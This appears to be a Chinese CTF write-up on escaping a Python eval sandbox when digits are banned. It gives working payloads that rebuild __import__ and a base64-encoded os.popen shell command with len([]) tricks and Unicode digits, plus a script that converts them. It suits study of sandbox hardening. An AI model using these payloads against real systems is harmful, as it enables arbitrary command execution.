 # 沙箱逃逸-解法四 payload 分析

## 前言

解法四主要针对数字被禁用的情况。

## Payload 分析

需要对解法三 的 payload 进行改造，使其不需要数字。

**解法三 payload：**

```python
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=1))[0]))
```

### 切片中的数字如何绕过？

解法三的 payload 中切片的数字主要用到 0 和 2，可以通过以下手法绕过：

- `0` -> `len([])`
- `2` -> `len(list(dict(aa=()))[len([])])`

关键问题在于参数中的数字咋绕过？

### dict() 参数里的数字如何绕过？

答案是 Unicode！

可用的数字列表见：

https://www.fileformat.info/info/unicode/category/Nd/list.htm

![image-20230509111320380](picture/image-20230509111320380.png)

所以，终极版的 payload 如下：

```python
vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg=()))[len([])])
```

还是一步步拆解来看一看：

```python
dict(_a_aiamapaoarata_a_=()) # {'_a_aiamapaoarata_a_': ()}

list(dict(_a_aiamapaoarata_a_=())) # ['_a_aiamapaoarata_a_']

[len([])] # [0]

list(dict(_a_aiamapaoarata_a_=()))[len([])] # '_a_aiamapaoarata_a_'

len(list(dict(aa=()))[len([])]) # 2

[::len(list(dict(aa=()))[len([])])] # [::2]


list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])] # '__import__'


eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])]) # <built-in function __import__>

```

导入 binascii 模块和上述拆解分析相同，主要看看 Unicode 那部分：

```python
dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()) # {'a_2_b1_1b_a_s_e_6_4': ()}


list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])] # 在 pycharm 运行，控制台莫名报错。结果是 'a_2_b1_1b_a_s_e_6_4'


list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=())) [len([]) ][::len(list(dict(aa=()))[len([])])] # 'a_2_b1_1b_a_s_e_6_4'[::2] = 'a2b_base64'


[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=())) [len([]) ][::len(list(dict(aa=()))[len([])])]] # ['a2b_base64']


```

### 构造脚本

当然不可能手工替换解法三 payload 中的数字，附上作者脚本

```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫' #这个是 unicode 的数字，不是普通的数字！

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)}) # 把 payload 中的普通数字全部换成unicode数字
```

